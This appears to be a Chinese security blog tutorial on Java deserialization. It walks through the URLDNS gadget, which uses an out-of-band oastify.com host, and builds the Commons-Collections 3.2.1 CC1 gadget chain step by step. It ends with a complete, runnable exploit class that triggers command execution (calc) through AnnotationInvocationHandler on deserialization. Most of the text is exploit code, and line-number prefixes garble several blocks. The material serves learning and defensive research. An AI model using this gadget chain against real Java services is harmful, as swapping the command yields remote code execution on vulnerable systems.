








序列化与反序列化
java序列化是通过ObjectOutputStream类中的writeObject方法
1 2 3 4 5 public void Serialize (Object a) throws Exception{ ObjectOutputStream objectOutputStream = new ObjectOutputStream (new FileOutputStream ("test.ser" )); objectOutputStream.writeObject(a); objectOutputStream.close(); }
反序列化是通过ObjectInputStream类中的readObject方法
1 2 3 4 5 6 public Object Unserialize () throws Exception{ ObjectInputStream objectInputStream = new ObjectInputStream (new FileInputStream ("test.cer" )); People people = (People) objectInputStream.readObject(); objectInputStream.close(); return people; }
序列化和反序列化这是两个很正常的功能，但我们稍加利用就可以用它来执行恶意代码
DNSURL
readObject
如果反序列化的类中本身带有readObject方法，那么在反序列化的时候就会调用类中的readObject方法
1 2 3 4 5 private void readObject (ObjectInputStream objectInputStream) throws Exception{ objectInputStream.defaultReadObject(); System.out.println("people的readObject被调用了" ); }

HashMap
而对于hashmap这个java内置类是可序列化并带有readObject方法的，同时readObject又调用了hash方法
我们如果让URL类作为HashMap的key,就会调用URL.hashCode()，最终调用getHostAddress（）
1 2 3 HashMap<URL,Integer> hashMap=new HashMap <URL,Integer>(); hashMap.put(new URL ("http://w85euszvkqr7x2s5cjco79cj0a63us.oastify.com" ),1 ); Serialize(hashMap);
因为HashMap的put方法已经调用了hash方法
反射
Java中的反射是指在运行时动态地获取类的信息并操作类的属性、方法和构造函数等。通过反射，可以在运行时获取类的信息，包括类名、父类、接口、方法、属性等，并且可以在运行时动态地创建对象、调用方法、访问属性等
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 Class c = people.getClass();Class c = Class.forName("People" );Constructor peopleconstructor = c.getConstructor(int .class,String.class);People p = (People)peopleconstructor.newInstance(12 ,"jack" );Field[] peoplefields = c.getFields(); Field agefield = c.getField("age" );Field[] peoplefields = c.getDeclaredFields(); Field namefield = c.getDeclaredField("name" );namefield.setAccessible(true ); namefield.set(p,"tony" ); Method[] poplemethods = c.getMethods(); Method changnamemethod = c.getMethod("changname" );changnamemethod.invoke(p,"perter" );
结果
通过反射我们可以在初始化url类以后再把hashCode的值转回-1
1 2 3 4 5 6 7 8 9 HashMap<URL,Integer> hashMap=new HashMap <URL,Integer>(); URL url=new URL ("http://w85euszvkqr7x2s5cjco79cj0a63us.oastify.com" ); Class c=url.getClass(); Field hashcodefield = c.getDeclaredField("hashCode" );hashcodefield.setAccessible(true ); hashcodefield.set(url,12345 ); hashMap.put(url,1 ); hashcodefield.set(url,-1 ); Serialize(hashMap);
那么在序列化的时候dnslog就不会收到dns请求
Commonscollections
环境
使用的jdk版本是8u65（需要在8u71以下），同时下载对应的openjdk，并复制sun文件添加进idea
Commonscollections使用的版本是存在漏洞的3.2.1版本
maven包中有一个Transformer接口，定义了一个transform方法，有非常多的实现类
其中主要产生漏洞的是InvokerTransformer类的transform方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 public InvokerTransformer (String methodName, Class[] paramTypes, Object[] args) { super (); iMethodName = methodName; iParamTypes = paramTypes; iArgs = args; } public Object transform (Object input) { if (input == null ) { return null ; } try { Class cls = input.getClass(); Method method = cls.getMethod(iMethodName, iParamTypes); return method.invoke(input, iArgs); } catch (NoSuchMethodException ex) { throw new FunctorException ("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist" ); } catch (IllegalAccessException ex) { throw new FunctorException ("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed" ); } catch (InvocationTargetException ex) { throw new FunctorException ("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception" , ex); } }
transform方法会通过反射来调用input对象的methodName方法，其中传入的参数为args，参数类型为paramTypes，故此以下代码就会调出计算机
1 2 3 Runtime runtime = Runtime.getRuntime();new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"calc" }).transform(runtime);
我们的目标是找到一个重写了readObject的类，通过一条利用链最终调用这个transform方法
接下来要找一下谁调用了nvokerTransformer类的transform方法（最好不同名字）
可以看到在TransformedMap的checkSetValue中有被调用

1 2 3 protected Object checkSetValue (Object value) { return valueTransformer.transform(value); }
那么这里就要让TransformedMap.valueTransformer=invokerTransformer对象
而TransformedMap有个decorate方法
1 2 3 public static Map decorate (Map map, Transformer keyTransformer, Transformer valueTransformer) { return new TransformedMap (map, keyTransformer, valueTransformer); }
利用链：TransformedMap.checkSetValue()->InvokerTransformer.transform()
命令执行代码：
1 2 3 4 InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}); HashMap<Object,Object> map = new HashMap<Object, Object>(); map.put("key","value"); TransformedMap.decorate(map,null,invokerTransformer);
然后去找调用了checkSetValue的方法，发现只有一个AbstractInputCheckedMapDecorator的setValue方法

1 2 3 4 public Object setValue (Object value) { value = parent.checkSetValue(value); return entry.setValue(value); }
这里很明显是对entry.setValue()方法的一个重写，所以我们只需要在迭代器遍历Map时执行entry.setValue()即可
利用链：AbstractInputCheckedMapDecorator.MapEntry.setValue()->TransformedMap.checkSetValue()->InvokerTransformer.transform()
命令执行代码：
1 2 3 4 5 6 7 8 Runtime runtime = Runtime.getRuntime();InvokerTransformer invokerTransformer = new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"calc" });HashMap<Object,Object> map = new HashMap <Object, Object>(); map.put("key" ,"value" ); Map<Object,Object> transformedMap = TransformedMap.decorate(map,null ,invokerTransformer); for (Map.Entry entry:transformedMap.entrySet()){ entry.setValue(runtime); }

接下类同样得去找一个类调用了setValue()方法，并且这个类最好是通过readObject调用的
AnnotationInvocationHandler
最终我们找到了sun.reflect.annotation.AnnotationInvocationHandler类中的readObject方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 private void readObject (java.io.ObjectInputStream s) throws java.io.IOException, ClassNotFoundException { s.defaultReadObject(); AnnotationType annotationType = null ; try { annotationType = AnnotationType.getInstance(type); } catch (IllegalArgumentException e) { throw new java .io.InvalidObjectException("Non-annotation type in annotation serial stream" ); } Map<String, Class<?>> memberTypes = annotationType.memberTypes(); for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) { String name = memberValue.getKey(); Class<?> memberType = memberTypes.get(name); if (memberType != null ) { Object value = memberValue.getValue(); if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) { memberValue.setValue( new AnnotationTypeMismatchExceptionProxy ( value.getClass() + "[" + value + "]" ).setMember( annotationType.members().get(name))); } } } }
反序列化的时候会通过迭代器遍历this.memberValues，所以这里要让this.memberValues=transformedMap
来看看AnnotationInvocationHandler类的构造方法
1 2 3 4 5 6 7 8 9 AnnotationInvocationHandler(Class<? extends Annotation > type, Map<String, Object> memberValues) { Class<?>[] superInterfaces = type.getInterfaces(); if (!type.isAnnotation() || superInterfaces.length != 1 || superInterfaces[0 ] != java.lang.annotation.Annotation.class) throw new AnnotationFormatError ("Attempt to create proxy for a non-annotation type." ); this .type = type; this .memberValues = memberValues; }
这个构造方法没有修饰符只具有包级别访问权限，所以这里我们只能通过反射来调用来实例化对象，同时第一个参数只允许是注解类型或其子类
1 2 3 4 Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" );Constructor constructor = clazz.getDeclaredConstructor(Class.class,Map.class);constructor.setAccessible(true ); Object obj = constructor.newInstance(Override.class,transformedMap);
存在的问题
目前已经可以将我们构造的map传进去了，但仍然面临几个问题
1.Runtime类没有实现Serializable，无法反序列化
2.要想程序执行到setValue()方法，前面有2个if判断语句得想办法
3.AnnotationInvocationHandler类里的setvalue()参数为
new AnnotationTypeMismatchExceptionProxy(value.getClass() + “[” + value + “]”).setMember(annotationType.members().get(name))
但这并不是我们想传入的参数
一个一个来解决吧
Runtime类反序列化
我们可以通过反射+ChainedTransformer来解决
反射创建Runtime实例并调用exec()
1 2 3 4 5 6 Class c = Class.forName("java.lang.Runtime"); Method m = c.getMethod("getRuntime"); Runtime r = (Runtime) m.invoke(null,null); Method execmethod = c.getMethod("exec", String.class); execmethod.invoke(r,"calc"); Runtime.getRuntime().exec("calc");
将上述代码转换成用InvokerTransformer类的transform方法实现
1 2 3 Method m = (Method)new InvokerTransformer ("getMethod" ,new Class []{String.class,Class[].class},new Object []{"getRuntime" ,null }).transform(Runtime.class);Runtime r = (Runtime)new InvokerTransformer ("invoke" ,new Class []{Object.class,Object[].class},new Object []{null ,null }).transform(m);new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"calc" }).transform(r);
这里有一个特征，第一行的结果作为第二行的输入，而第二行的结果又作为第三行的输入，且都是transform方法，ChainedTransformer类的transform方法刚好有这个功能
1 2 3 4 5 6 7 8 9 10 11 public ChainedTransformer (Transformer[] transformers) { super (); iTransformers = transformers; } public Object transform (Object object) { for (int i = 0 ; i < iTransformers.length; i++) { object = iTransformers[i].transform(object); } return object; }
所以又可以将代码转换成
1 2 3 4 5 6 7 Transformer[] Transformers = new Transformer[]{ new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}), new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}) }; ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers); chainedTransformer.transform(Runtime.class);

到这里就可以解决Runtime类反序列化的问题了，并且此时调用的transform方法也从最初的InvokerTransformer.transform(runtime)变成了ChainedTransformer.transform(Runtime.class)
2个if判断语句
首先是第一个if，核心代码：
1 2 3 4 5 6 annotationType = AnnotationType.getInstance(type); Map<String, Class<?>> memberTypes = annotationType.memberTypes(); for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) { String name = memberValue.getKey(); Class<?> memberType = memberTypes.get(name); if (memberType != null ) {
要进入使条件为真的话，就要找到一个含有成员变量的注释类，这里我们找到了Retention类有个叫value的成员变量

同时要修改我们传入的map的key值为value
第二个if判断成员变量的值是否为其所声明类型的实例，而这里肯定不是，所以不需要额外做手脚
setvalue()参数
要解决这个问题其实比较靠运气，因为对于setvalue()的参数我们不太好修改，但这里恰好有一个ConstantTransformer类
1 2 3 4 5 6 7 8 public ConstantTransformer (Object constantToReturn) { super (); iConstant = constantToReturn; } public Object transform (Object input) { return iConstant; }
这个类的transform很离谱，不管输入什么都只是输出类里的iConstant，这就使得输入的参数“无效化”，同时返回的内容是我们想要的内容，于是将执行的代码做如下修改
1 2 3 4 5 6 7 8 Transformer[] Transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" , new Class []{String.class, Class[].class}, new Object []{"getRuntime" , null }), new InvokerTransformer ("invoke" , new Class []{Object.class, Object[].class}, new Object []{null , null }), new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"calc" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (Transformers);chainedTransformer.transform("fdsf" );

到这里三个问题都已经得到了解决
最后
最终的利用链：
AnnotationInvocationHandler.readObject()->AbstractInputCheckedMapDecorator.MapEntry.setValue()->TransformedMap.checkSetValue()->ChainedTransformer.transform()
测试代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 import com.sun.org.apache.xml.internal.security.transforms.Transform;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.TransformedMap;import sun.instrument.TransformerManager;import javax.swing.*;import java.io.*;import java.lang.annotation.Retention;import java.lang.reflect.Constructor;import java.lang.reflect.Method;import java.util.HashMap;import java.util.Map;public class Test { public static void main (String[] args) throws Exception { Transformer[] Transformers = new Transformer []{ new ConstantTransformer (Runtime.class), new InvokerTransformer ("getMethod" , new Class []{String.class, Class[].class}, new Object []{"getRuntime" , null }), new InvokerTransformer ("invoke" , new Class []{Object.class, Object[].class}, new Object []{null , null }), new InvokerTransformer ("exec" ,new Class []{String.class},new Object []{"calc" }) }; ChainedTransformer chainedTransformer = new ChainedTransformer (Transformers); HashMap<Object,Object> map = new HashMap <Object,Object>(); map.put("value" ,"1" ); Map<Object,Object> transformedMap = TransformedMap.decorate(map,null ,chainedTransformer); Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor constructor = clazz.getDeclaredConstructor(Class.class,Map.class); constructor.setAccessible(true ); Object obj = constructor.newInstance(Retention.class,transformedMap); Serialize(obj); Object objecj = Unserialize("test.ser" ); } public static void Serialize (Object a) throws Exception{ ObjectOutputStream objectOutputStream = new ObjectOutputStream (new FileOutputStream ("test.ser" )); objectOutputStream.writeObject(a); objectOutputStream.close(); } public static Object Unserialize (String filename) throws Exception{ ObjectInputStream objectInputStream = new ObjectInputStream (new FileInputStream (filename)); Object object = (Object)objectInputStream.readObject(); objectInputStream.close(); return object; } }

其实但看整个利用链的话还是比较简单的，难的是有一些地方需要想办法绕过
参考视频：
Java反序列化CommonsCollections篇(一) CC1链手写EXP